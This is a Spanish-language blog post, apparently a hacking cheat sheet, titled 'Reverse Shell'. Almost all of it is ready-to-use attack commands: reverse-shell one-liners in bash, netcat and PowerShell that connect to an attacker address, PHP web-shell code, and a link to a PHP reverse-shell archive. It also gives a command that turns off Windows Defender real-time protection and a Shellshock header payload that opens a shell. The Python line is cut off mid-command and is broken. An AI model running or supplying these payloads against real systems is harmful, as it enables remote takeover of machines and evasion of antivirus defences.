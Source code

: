```yaml
---
date: 2021-09-15T00:22:05.000Z
layout: post
comments: true
title: Reverse Shell
subtitle: 'y como obtener acceso'
description: >-
image: >-
  http://imgfz.com/i/8lyF7VZ.jpeg
optimized_image: >-
  http://imgfz.com/i/8lyF7VZ.jpeg
category: ciberseguridad
tags:
  - explotación
  - linux
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```

# Ejemplos principales:
### Bash
```bash
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Python
```bash
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))
```
### Netcat
```bash
#Versiones actualizadas
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ nc -e /bin/sh 10.0.0.1 1234

#Versiones más antiguas
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### PHP
En PHP se puede ingresar un archivo malicioso que devuelva una reverse shell.

>[Descarga archivo aquí](http://www.mediafire.com/file/a3i5v7urr7cp6gw/php-reverse-shell-1.0.tar.gz/file)

Para testear ejecución remota de comandos:

```php
<?php system($_GET[‘ls’]);?>

## <?php system($_GET[‘cmd’]);?>
```


### PowerShell (cmd)

```
C:\Users\test> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Deshabilitar Antivirus

```powershell
PS C:\Users\test> Set-MpPreference -DisableRealtimeMonitoring $true
```

### Ejemplo de uso
En burpsuite se podría ocupar en ataques como Shellshock, por ejemplo:
```bash
#Se ocupa como base un proceso como este...
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```
```bash
#Acá se adapta el proceso...
User Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```
